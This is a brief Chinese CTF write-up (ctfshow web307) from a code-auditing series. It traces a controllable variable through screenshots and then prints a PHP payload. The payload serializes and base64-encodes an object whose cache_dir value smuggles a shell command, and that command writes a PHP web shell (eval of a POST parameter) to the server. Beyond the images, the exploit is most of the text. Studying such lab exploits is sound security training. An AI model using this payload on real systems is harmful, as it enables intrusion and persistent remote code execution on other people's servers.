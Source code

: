 ```yaml
---
title: "[代码审计]实战篇:web307"
desc: TonyD0g
date: 2022-02-15 12:08:25
tags: 代码审计
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-02-15

## web307:
## 依旧自动审计，发现可疑利用点:
![avatar](https://s4.ax1x.com/2022/02/15/Hgt6N8.png)
![avatar](https://s4.ax1x.com/2022/02/15/Hgt29g.png)

## 发现没人调用它，所以利用不了:

![avatar](https://s4.ax1x.com/2022/02/15/HgtrHP.png)
## 可控变量，跟踪一波:

![avatar](https://s4.ax1x.com/2022/02/15/HgtBnI.png)
![avatar](https://s4.ax1x.com/2022/02/15/HgtyAf.png)
![avatar](https://s4.ax1x.com/2022/02/15/HgtDBt.png)
![avatar](https://s4.ax1x.com/2022/02/15/Hgtc4S.png)

## Payload:
```
<?php
class config{
    public $cache_dir = 'cache/*;file_put_contents("1.php","<?php eval($_POST[1]);?>");';
}
class dao
{
    private $config;

    public function __construct()
    {
        $this->config = new config();
    }
}
echo base64_encode(serialize(new dao()));
?>
```
![avatar](https://s4.ax1x.com/2022/02/15/HgNuUf.png)

</font>